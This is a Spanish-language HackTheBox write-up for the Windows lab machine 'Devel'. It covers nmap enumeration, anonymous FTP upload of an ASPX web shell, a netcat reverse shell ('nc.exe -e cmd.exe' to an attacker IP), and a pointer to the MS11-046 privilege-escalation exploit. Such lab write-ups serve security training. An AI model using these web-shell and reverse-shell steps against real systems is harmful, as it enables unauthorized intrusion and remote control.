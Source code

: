 ```yaml
---
layout: post
title: "Devel"
subtitle: 'HackTheBox - Easy Machine - Windows'
date: 2020-08-18 12:00:00
author: "TheusZero"
header-img: "images/post/WindowsMachines/Devel/1.png"
catalog: true
comments: true
tags:
  - Windows
  - Machine
  - Explotations
  - Upgrade
  - Shell
  - Root
  - User
---
```


devel corresponde a una maquina windows de nivel facil tanto en el user como en el root.

## Introduccion

Segun la comunidad podemos ver que devel tiene un nivel "facil" y podemos usar un CVE para atacar la maquina.
![](/TheusZero/images/post/WindowsMachines/Devel/3.PNG)
![](/TheusZero/images/post/WindowsMachines/Devel/2.png)

## Enumeracion

el nmap que arrojamos fue el siguiente:

```Python
root@kali# nmap -sT -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.5
Starting Nmap 7.70 ( https://nmap.org ) at 2019-02-21 21:22 EST
Nmap scan report for 10.10.10.5
Host is up (0.020s latency).
Not shown: 65533 filtered ports
PORT   STATE SERVICE
21/tcp open  ftp
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 13.44 seconds
```

Podemos ver que tenemos un puerto 21 ftp abierto y un puerto 80 con http funcionado, por ende, aondaremos con un -sC -sV en el peurto 21 y el 80 intentando encontrar algun tipo de script que podamos usar.

```Python
root@kali# nmap -sV -sC -p 21,80 -oA scans/nmap-scripts 10.10.10.5
Starting Nmap 7.70 ( https://nmap.org ) at 2019-02-21 21:44 EST
Nmap scan report for 10.10.10.5
Host is up (0.019s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  01:06AM       <DIR>          aspnet_client
| 03-17-17  04:37PM                  689 iisstart.htm
|_03-17-17  04:37PM               184946 welcome.png
| ftp-syst:
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.25 seconds
```

veemos que podemos acceder con **Anonymous** a la red del ftp y tenemos algunos archivos, como **welcome.png y iisstart.htm**

revisando el http 80 obtenemos lo siguiente:
![](/TheusZero/images/post/WindowsMachines/Devel/4.png)

esta imagen corresponde a la misma que se encuentra en el ftp llamada welcome, por ende, podemos intuir que el ftp corresponde a un directorio web que se ejecuta en la maquina, para comprobarlo revisamos el archivo **iisstart.htm**, entonces:

> http://10.10.10.5/iisstart.htm
>> nos deberia mostrar algun tipo de respuesta

Obtenemos esto:

```Python
HTTP/1.1 200 OK
Content-Type: text/html
Last-Modified: Fri, 17 Mar 2017 14:37:30 GMT
Accept-Ranges: bytes
ETag: "37b5ed12c9fd21:0"
Server: Microsoft-IIS/7.5
X-Powered-By: ASP.NET
Date: Mon, 25 Feb 2019 10:40:02 GMT
Connection: close
Content-Length: 689
```
exito, ya tenemos por donde explotar

## obtencion de una shell

windows rara vez tiene netcat o alguna reverse shell de las que tiene pentesteyMonkey por ende, debemos usar algunas diferentes que el sistema suele tener.
Con este comando obtenemos algunas reverse shell con aspx
```Python
root@kali# locate cmd.aspx
/usr/share/davtest/backdoors/aspx_cmd.aspx
/usr/share/seclists/Web-Shells/FuzzDB/cmd.aspx
root@kali# cp /usr/share/seclists/Web-Shells/FuzzDB/cmd.aspx .
```

> usando la de /usr/share/seclists/Web-Shells/FuzzDB/cmd.aspx

entramos al ftp y subimos la shell 
```Python
ftp> put cmd.aspx  
local: cmd.aspx remote: cmd.aspx 
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.                              
1442 bytes sent in 0.00 secs (985.4465 kB/s) 
```

vamos al 80 y revisamos la shell 

> http://10.10.10.5/cmd.aspx

![](/TheusZero/images/post/WindowsMachines/Devel/5.png)

subiremos el binario de netcat ahora para entablar una buena reverse shell

![](/TheusZero/images/post/WindowsMachines/Devel/6.png)

o bien 

```Python
root@kali# locate nc.exe
/opt/SecLists/Web-Shells/FuzzDB/nc.exe
/opt/shells/netcat/nc.exe
/usr/lib/mono/4.5/cert-sync.exe
/usr/share/seclists/Web-Shells/FuzzDB/nc.exe
/usr/share/sqlninja/apps/nc.exe
/usr/share/windows-binaries/nc.exe
```
ahora lo subiremos a ftp usando BINARY ya que asi la data no se corrompe, recordar utilizar md5

con netcat ya subido, lo buscamos usando recursion sobre el disco C:
![](/TheusZero/images/post/WindowsMachines/Devel/7.png)
```Python
C:/Ruta/nc.exe -e cmd.exe 10.10.14.14 443
```
![](/TheusZero/images/post/WindowsMachines/Devel/devel-shell.gif)
lo ejecutamos y estamos dentro

#### Nishang

> https://github.com/samratashok/nishang

#### root
con un systeminfo obtenemos la version de la maquina: 
![](/TheusZero/images/post/WindowsMachines/Devel/8.png)
ya con esto podemos dar por entendido que version es, ahora al colocarla en google podemos acceder a un exploit simple de nombre:
> MS11-046 exploit (buscar en github)

subimos el binario que esta disponible y listo, somos root. 


